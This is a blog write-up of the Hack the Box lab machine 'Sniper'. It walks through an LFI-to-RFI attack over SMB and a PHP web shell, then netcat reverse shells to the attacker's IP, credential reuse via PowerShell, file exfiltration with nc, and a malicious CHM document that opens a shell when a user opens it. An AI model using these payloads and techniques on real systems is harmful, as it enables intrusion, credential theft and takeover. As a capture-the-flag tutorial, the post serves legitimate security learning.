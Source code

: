 +++
author = "Nick"
categories = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
date = 2020-03-28T15:08:24Z
description = ""
draft = false
thumbnail = "/images/2019/12/sniper.png"
slug = "hack-the-box-sniper"
summary = "Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!"
tags = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
title = "Hack the Box - Sniper"

+++


Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!

As usual, we kick it off with our ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.151```
The results came back pretty limited, so we rerun the nmap with ```-p-``` for all ports and speed it up a bit with ```-T4```.

```
Nmap scan report for 10.10.10.151
Host is up (0.053s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-27T23:15:28
|_  start_date: N/A
```

We see a webserver running so we go to see what it's hosting. The site is a logistics site. We take a look at the source but there's nothing of any use there. We do see the ```body``` tag being repeated a few times, which is a bit odd. We do see we have some additional routes though. We have ```/blog``` and ```/user```. We explore those pages and the links that they contain. We see there is also a ```registration.php```. So to get a better idea of what might be here we'll use ```gobuster``` to start enumerating possible new locations and pages.

We'll give it our standard command: ```gobuster dir -u http://10.10.10.151 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php```.

While that run's we will quckly point ```SQLMap``` and the ```/blog/?lang=blog-es.php``` route and see what it might find. Nothing shows up. We'll load up ```Burpsuite``` and see what the requests are actually doing. 

We get our proxy turned on and start looking at the requests. The first request that we want to look at is obviously ```/blog/?lang=``` since this has potential for exploit. We play with the request a few times and finally find a ```LFI```.

![](/images/2019/12/image-5.png" caption="We request the system.ini file)

![](/images/2019/12/image-6.png" caption="And here it is.)

So it looks like we have an LFI we can exploit. Now we need convert this LFI into somehow. Thankfully Windows will let us execute scripts on ```SMB``` shares. Explicitly this [RFI PHP Bypass](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html). So we'll need to create a reverse shell script and remote execution script, spin up an SMB share and then call the script via our LFI. 

We'll start with making a ```Meterpreter``` reverse shell with ```MSFPC```. 
Command: ```MSFPC windows tun0 4444```

Now that we have our shell, we will get a SMB server running. Originally I spun up the share with ```impacket``` but that failed to work, so we will need to turn on our hosting locally, following the instructions linked above:

```
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
echo -e "[global]\nworkgroup = WORKGROUP\nserver string = Samba Server %v\nnetbios name = name-me\nsecurity = user\nmap to guest = bad user\nname resolve order = bcast host\ndns proxy = no\nbind interfaces only = yes\n[ica]\npath = /var/www/html/pub\nwritable = no\nguest ok = yes\nguest only = yes\nread only = yes\ndirectory mode = 0555\nforce user = nobody" > /etc/samba/smb.conf
service smbd restart 
```
We can take those commands above and slap them in a ```.sh``` file for easy repeatability should we want to.
  
Now we need to have a way for our shell to executed. There are a few ways to do this, the most common being use a premade reverse shell execution script or make one using ```<?php echo shell_exec($_GET[‘cmd’]); ?>```. This will let you append CMD at the end of the .php call and execute something. In this case I used [WhileWinterWolfs PHP shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

Now that we have our pieces in place, let's execute! We head over to our browser and go to ```http://10.10.10.151/blog/?lang=//10.10.15.177/ica/wolfshell.php```. This will make the server load the file from our ```SMB``` share and give us a shell back to itself.

![](/images/2019/12/image-7.png)

We have a shell as ```iusr```. We need to convert this into a more permanent shell. We will upload our previously created payload to the system and execute it. 

During the upload we seem to keep getting some errors. Possibly due to Windows Defender eating our payload(s). So we'll get a bit more lowtech and basic. We can upload a ```netcat``` binary and just use that to forward a shell to us.

![](/images/2019/12/full_nc.gif)

Now that we have a more stable shell type, lets enumerate. In the ```inetpub``` structure we see some interesting files:

![](/images/2019/12/image-8.png)

Inside the ```db.php``` file we some credentials.

Creds:
```dbuser``` | ```36mEAhz/B8xQ~2VM```

These credentials very well could work for the user we are after, Chris. So we will try and escalate our permissions to his account via ```Powershell```. You need a bit of understanding on ```Powershell``` usage but it's pretty simple when we think about it. We need to store these credentials as variables, then pass them to the process we want to run.

```
$username = 'sniper\chris'
$pass = '36mEAhz/B8xQ~2VM'
$securePass = ConvertTo-SecureString $pass -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username,
$securePass
$session = New-PSSession -ComputerName Sniper -Credential $credential
Invoke-Command -Session $session -ScriptBlock { C:\tmp\nc.exe -e cmd.exe 10.10.15.177 9999}
```

Here's a quick breakdown of the above. The ```$username``` variable stores our username. The ```$pass``` stores our password. We then convert the ```$pass``` variable into a secured variable that we can pass to other functions. With ```$credential``` we store the ```$username``` and secured ```$pass```. We then create a new session with ```New-PSSession```. This created a new "sub session" within the machine. Then we finally tell that session to forward a escalated shell via ```nc.exe```.

![](/images/2019/12/escalate.gif)

Now that we have a shell as Chris, let's enumerate again! There is a file called ```Instructions.chm``` in the ```Downloads``` folder. We also see there is a folder called ```Docs``` on the root of C. Inside we have a few files.

![](/images/2019/12/image-9.png)

We will send the .chm over to our machine with nc: 
```C:\temp\nc64.exe -w 3 10.10.15.177 777 < instructions.chm```

Catch it with the corresponding listener: 
```nc -lvnp 777 > instructions.chm```

This is what we see when we open the file:

![](/images/2019/12/image-10.png)

Nothing of great use. However based on what we saw, we know that the CEO is expecting some documentation to land in the Docs directory. Maybe we can craft a payload and when the CEO opens it, compromises him. Luckily for us, we have the means [to do just that](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1).

We'll clone this repo down to our Windows machine. We run the command in Powershell to create our payload:

```Out-CHM -Payload "C:\tmp\nc.exe 10.10.15.177 7331 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```

This creates the payload. We then need to get our payload to ```C:\Docs```. Spin up a ```SimpleHTTPServer``` to host our file. Then use ```invoke-webrequest``` in powershell to get the file to download.

```invoke-webrequest -uri http://10.10.15.177/safe.chm -outfile C:\Users\Chris\Documents\safe.chm```

Once we download it, we move it to ```C:\Docs``` and wait for a shell.

![](/images/2019/12/lsat_step.gif)

We have a shell as root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

